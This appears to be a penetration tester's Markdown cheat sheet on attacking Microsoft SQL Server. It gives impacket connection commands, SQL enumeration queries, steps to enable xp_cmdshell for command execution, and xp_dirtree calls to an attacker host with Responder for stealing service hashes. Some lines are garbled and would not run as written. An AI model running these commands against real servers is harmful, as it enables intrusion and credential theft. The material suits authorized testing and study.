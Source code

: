 
## Good places and tools

[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is A PowerShell Toolkit for Attacking SQL Server
[PowerUpSQL CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet) has its own handy cheatsheet.


## Warning
Be careful, you can **block accounts** if you fail login several times using an existing username.

## Impacket smb related scripts

[[Impacket-Cheatsheet]]; if you have credentials:
```bash
# connect to a Microsoft SQL server
impacket-mssqlclient -port $PORT $domain/$sql_svc 
```

```sql
SELECT @@version					 	-- version check
SELECT DB_NAME()						-- current database
SELECT name FROM master..sysdatabases;	-- list databases

SELECT name, database_id, create_date FROM sys.databases;

USE <databasenamegoeshere>
SELECT * FROM information_schema.tables;
SELECT * FROM users;

-- Has two comment types
SELECT 1 — comment  
SELECT /*comment*/ 

SELECT is_srvrolemember('sysadmin'); 	-- role check

```

Show all the tables in a database
```sql
SELECT table_name, table_schema, table_type
    FROM information_schema.tables
    WHERE table_catalog = 'TestDB'
    ORDER BY table_name ASC;
```

Show all tables across all databases
```sql
SELECT *
    FROM information_schema.tables
    ORDER BY table_name ASC;
```


## Command Execution

Check if cmdshell is already active
```sql   
EXEC xp_cmdshell ‘net user’; -- privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure ‘show advanced options’, 1; -- priv  
RECONFIGURE; -- priv  
EXEC sp_configure ‘xp_cmdshell’, 1; -- priv  
RECONFIGURE; -- priv
-- OR
EXEC mast.dbo.xp_cmdshell 'cmd';
```

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test'; EXEC xp_dirtree @q;--+ 
```
Or
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```

## Hash Passback

Use [[Responder-Cheatsheet]] to catch the service hash of user 
```bash
sudo responder -I $interface
xp_dirtree "\\attacker_ip\Share"
```

## References

[pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
[therootcompany](https://therootcompany.com/blog/mssql-cheat-sheet/)
[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 
[PowerUpSQL CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
